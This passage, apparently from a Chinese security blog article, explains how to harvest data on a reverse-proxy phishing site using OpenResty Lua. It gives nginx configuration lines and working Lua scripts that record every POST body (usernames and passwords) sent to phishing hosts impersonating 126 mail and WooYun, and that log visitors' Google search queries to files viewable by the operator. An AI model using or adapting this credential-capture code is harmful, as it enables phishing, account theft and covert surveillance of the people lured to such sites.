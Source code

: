 * * *

那么，lua除了能够解决上述的解压缩问题以外，还有没有什么新玩法？

这时候，理应就想到就是数据包的截获。钓鱼网站的最终目的就是获取用户的信息，我在前面说到了可以通过在前端插入javascript脚本来截取用户的输入。

但实际上这并不是最好的方案，最好的方法就是在后端截取数据包。

于是我来使用lua完成这个任务。首先在nginx的server块外面（主配置文件中）加入配置项：

```
init_by_lua_file  /usr/local/openresty/luasrc/init.lua;
access_by_lua_file /usr/local/openresty/luasrc/fish.lua;

```

这两项在ngx_lua_waf中也介绍过。init_by_lua_file是在nginx启动的时候加载并执行的lua脚本，access_by_lua_file是在一次HTTP请求开始前执行的lua脚本。

init_by_lua_file一般是初始化一些全局使用的函数，不多说了。说一下我写的access_by_lua_file时调用的fish.lua：

```
local method=ngx.req.get_method()
if in_array(ngx.var.host, valid_host) then
if method == "POST" then
    ngx.req.read_body()
    local data = ngx.req.get_body_data()
    writefile("/home/wwwroot/fish/"..ngx.var.host..".txt", data .. "\n")
end
end

```

当host在valid_host（钓鱼站的host）中时，判断如果请求是POST请求，就将数据包的body写入/home/wwwroot/fish/ $ngx.var.host .txt 中。

这时，我访问http://126.jjfly.party/admin/126.jjfly.party.txt 就可以看到实时钓鱼的结果：

![enter image description here](http://drops.javaweb.org/uploads/images/3da5e5d73fc6fbed22c08c289567729a96218c01.jpg)

乌云也一样：http://wooyun.jjfly.party/admin/wooyun.jjfly.party.txt

![enter image description here](http://drops.javaweb.org/uploads/images/9a1932ca320530d38549b6d42488925026dab655.jpg)

QQ邮箱那个因为环境太复杂（有至少三个host需要反代），所以我宁愿选择在前端插入脚本进行劫持。

除了记录用户输入的账号密码，根据反代网站的类型不同还能截取很多有趣的东西。

比如谷歌，我可以记录访客在谷歌中查询的内容：

![enter image description here](http://drops.javaweb.org/uploads/images/9d38614725d4dec22e06190442102a2f0deb09bd.jpg)

脚本也很简单：

```
if ngx.var.host == "xdsec.mhz.pw" then
    local args = ngx.req.get_uri_args()
    if args["q"] then
        writefile("/home/wwwroot/fish/"..ngx.var.host..".txt",  "search: " .. args["q"] .. "\n")
    end
end

```
